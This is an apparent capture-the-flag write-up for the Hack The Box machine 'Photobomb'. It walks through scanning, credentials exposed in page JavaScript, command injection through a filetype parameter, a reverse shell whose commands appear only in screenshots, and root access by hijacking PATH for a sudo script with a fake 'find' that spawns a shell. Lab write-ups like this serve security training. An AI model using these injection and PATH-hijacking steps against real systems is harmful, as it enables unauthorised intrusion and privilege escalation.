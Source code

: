 # Photobomb
<div align="center">
  <img style="text-align:center" src="https://github.com/Wanasgheo/Writeups/assets/111740362/8775d37c-91c2-43fb-bddd-36da3cca479d"></img>
</div>

Welecome back, today  we will see an hackthebox machine called Photobomb
Let’s start out with a usual nmap scan.

```diff
# Nmap 7.92 scan initiated Fri Oct 21 09:54:09 2022 as: nmap -sC -sV -oN phtbomb_nmap.txt 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.037s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 21 09:54:18 2022 -- 1 IP address (1 host up) scanned in 9.20 seconds
```

As always there’s the web page that we can visit.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/ebbfb934-a583-431c-8a03-7a1f2801fdff"></img>

Nothing cool here unless a link which needs credentials to login.

By the way we can try to use gobuster

```cpp
┌──(kali㉿kali)-[~/diego/Hack_the_box/Machines/Photobomb]
└─$ gobuster dir --wordlist=/usr/share/wordlists/dirb/big.txt -u http://photobomb.htb/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/10/21 09:56:38 Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 273]
/]                    (Status: 400) [Size: 273]
/favicon.ico          (Status: 200) [Size: 10990]
/plain]               (Status: 400) [Size: 278]  
/printer              (Status: 401) [Size: 188]  
/printer-friendly     (Status: 401) [Size: 188]  
/printer_friendly     (Status: 401) [Size: 188]  
/printerfriendly      (Status: 401) [Size: 188]  
/printers             (Status: 401) [Size: 188]  
/quote]               (Status: 400) [Size: 278]  
                                                 
===============================================================
2022/10/21 09:58:27 Finished
==============================================================
```

There are a few folders which are useless because they need  a password to visit them, but if we look at the source code we can spot an unusual link

```jsx
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

By following the given path it set for us the credentials that will be necessary to login into the printer page.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6869064b-a1aa-4ab9-8f20-28b108ef1487"></img>

At the moment we can’t find anything, but if throw an error by trying to find something that doesn’t exist into the url we get this message

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1bffd86a-4dec-4576-b8bb-edcf76f7b7b7"></img>

This is the error message for the Sinatra Web-Framework which is vulnerable to directory trasversal, as we an see from this post [snyk](https://security.snyk.io/vuln/SNYK-RUBY-SINATRA-22017)

Even if we follow the idea of the Exploit it won't work but we still have the image downloader. So let’s take the request with burpsuite and try to inject some args

With the first we can’t do anything while with the second we are able to add others extensions to the file and get strange results

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/29d23de5-6e1d-4606-97aa-546cccce57ff"></img>

And here is the result

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/bcaddcdb-d85a-441b-89b1-2ef4cdddba9f"></img>

As you can see we are able to specify the output of how the image which gets printed 

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/054c0f62-f92d-4680-a6aa-9c84b5268a88"></img>

Now while fuzzing we find that there are two useful characters which are the `;` and the `|` that are the character to run more commands in a shell.

Here is an example.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b83f82f4-5200-4770-b73c-22a0d91cc8ab"></img>

So now we have to manage a way to get a reverse shell.

Because we are able to run bash commands we can make it tale our php rev-shell from us

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/b24d037a-3197-48d3-811a-7331731fdcf4"></img>

Now the only problem is that we have to find where our shell is. By injecting as command `python3 -m http.server` we can see that we are here

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/c7dd0f9d-64bd-4399-9866-c9d222686a10"></img>

So as you can see we have found the rev-shell but if we simply call it trough the URL we are no able to run it, this probably means that php is not installed, so thi was definetly a rabbit hole.

By the way before i forgot to try running a rev-shell with python, which turned out to be the solution.

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/1824ea49-21cd-4a49-800e-c0b3e99461c52"></img>

And here's why we couldn’t execute our rev-shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/d5b1ae4f-8d80-41d2-a3c1-484c1f3b4f3d"></img>

The php command was not installed.

By the way, we got the shell and now we can grab the user flag.

```python
wizard@photobomb:~$ cat user.txt
589b2daea8041e50dfd59a92c86783e7
wizard@photobomb:~$
```

# Root.txt

Here we are at the funniest part where we have to become root.
As always the first thing i do is checking for some privileges with `sudo -l`

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/43ab949a-444d-45c2-87b5-71a301f26621"></img>

Here is an interesting one because we can run a file called `/opt/cleanup.sh` as root

```bash
wizard@photobomb:/opt$ cat cleanup.sh 
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

If we look closely we can spot a command which gets runned without specifying its full PATH or `find`, so we just need to create an executable called `find` into the tmp folder that call a bash, adn then change the PATH with tmp as first folder.

Like this when the code will be ran as root it will execute not the real find but our find which is a shell spawner.

```bash
wizard@photobomb:/tmp$ cat find
#!/usr/bin/python3
import os
import sys 

try:
    os.system("/bin/sh")
except:
    os.exit()
```

Know we have to change the PATH

```bash
wizard@photobomb:/tmp$ export PATH=/tmp:$PATH
```

Like this when we run `find` we get a shell

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/190f966f-eb82-4011-ad38-aa676fe25722"></img>

Now we need to run it trough the file as sudo

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/30240213-f9cc-41c7-b72e-10e609c8b455"></img>

Mhhmm... It doesn't work, because it even export the curren PATH, but the sudo says that we can not only run as root the program but even set the env variables run-time, so just pipe all togheter

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/794ebfd2-0953-43d9-b75e-f6fe5fb19613"></img>

And.... It worked so now we can fetch the root flag!

```bash
root@photobomb:~# cat root.txt 
60a8c867e31611a23dc277dcec2de33c
root@photobomb:~#
```

We did it!
<div align="center">
  <img src="https://github.com/Wanasgheo/Writeups/assets/111740362/3ce0a554-60dc-4475-8498-c9985b800e7f"></img>
</div>

Thanks for the attention 0xCY@
